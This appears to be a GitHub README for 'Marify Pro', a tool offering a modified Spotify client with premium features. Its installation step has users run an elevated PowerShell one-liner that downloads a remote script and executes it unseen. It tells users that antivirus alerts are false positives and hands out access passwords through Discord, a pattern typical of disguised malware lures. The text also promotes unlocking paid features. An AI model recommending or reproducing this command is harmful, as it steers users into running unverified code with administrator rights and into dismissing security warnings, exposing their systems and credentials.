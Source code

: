 # Marify Pro Installer

Welcome to the official Marify Pro Installer! This tool helps you install the enhanced version of Spotify with premium features.

## 🚀 Quick Installation

1. Open PowerShell as Administrator and run:
```powershell
iex "& { $(iwr -useb 'https://raw.githubusercontent.com/omaralhami/Marify-Installer/main/installer.ps1') }"
```

2. Enter your authorized access password when prompted

## ⚠️ Important Notes

- This installer requires a valid access password
- Contact us on Discord to obtain your access credentials
- Make sure to run PowerShell as Administrator
- Windows Defender or your antivirus might flag the installer - this is a false positive

## 🔒 Security

The installer includes password protection to ensure only authorized users can access Marify Pro features.

## 📞 Support

If you need help or want to obtain access:
- Join our Discord server
- Contact us via email
- Create an issue in this repository

## ⚖️ Legal

This tool is for educational purposes only. Use at your own risk.
